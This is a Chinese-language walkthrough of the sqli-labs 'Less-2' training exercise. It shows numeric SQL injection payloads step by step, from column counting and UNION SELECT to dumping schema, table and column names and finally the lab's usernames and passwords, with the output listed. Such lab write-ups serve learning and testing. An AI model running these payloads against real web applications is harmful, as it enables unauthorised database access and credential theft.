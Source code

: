```yaml
---
title: less2
url: https://www.yuque.com/u29002979/ep2zrx/dady2k5mu2i7rd98
---
```


<a name="YstTA"></a>

# 查看源码

```bash
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

查看源码，参数没有闭合，说明为数字型注入。

<a name="t0fo6"></a>

# 找注入点

> http://192.168.31.193/Less-2/

Please input the ID as parameter with numeric value&#x20;
请输入ID作为带数值的参数
`?id=1 and 1=2 #`
1=2非真，页面就没有显示内容，说明数据被执行了。 <a name="FFdxf"></a>

# 判断字段

`?id=1 order by 4#`
Unknown column '4' in 'order clause'
“order子句”中的未知列“4”
`?id=1 order by 3#`
显示正常，说明有三列。 <a name="VgMOQ"></a>

# 找回显点

`?id=-1 union select 1,2,3#`
显示了2，3，说明2，3是回显点

<a name="RnFWy"></a>

# 开始注入

<a name="NpH7F"></a>

## 查看数据库名

`?id=-1 union select 1,2,group_concat(schema_name) from informaion_schema.schemata #`

> schema的复数:schemata

显示了数据库名称：
information\_schema,
challenges,
dvwa\_com,
mysql,
performance\_schema,
security,
sql,
sys <a name="oQxjF"></a>

## 查看数据表名称

`?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`

> where table\_schema=database()：查到本数据库的所有表名

显示数据表名称：
emails,
referers,
uagents,
users
查看users表字段名称
`?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#`
显示字段名：
user\_id,
first\_name,
last\_name,
user,
password,
avatar,
last\_login,
failed\_login,
USER,
CURRENT\_CONNECTIONS,
TOTAL\_CONNECTIONS,
id,
username,
password <a name="GOQCD"></a>

## 查看字段内容

`?id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users)#`
用户名~密码
Dumb~Dumb,
Angelina~I kill-you,
Dummy~p@ssword,
secure~crappy,
stupid~stupidity,
superman~genious,
batman~mob!le,
admin~admin,
admin1~admin1,
admin2~admin2,
admin3~admin3,
dhakkan~dumbo,
admin4~admin4
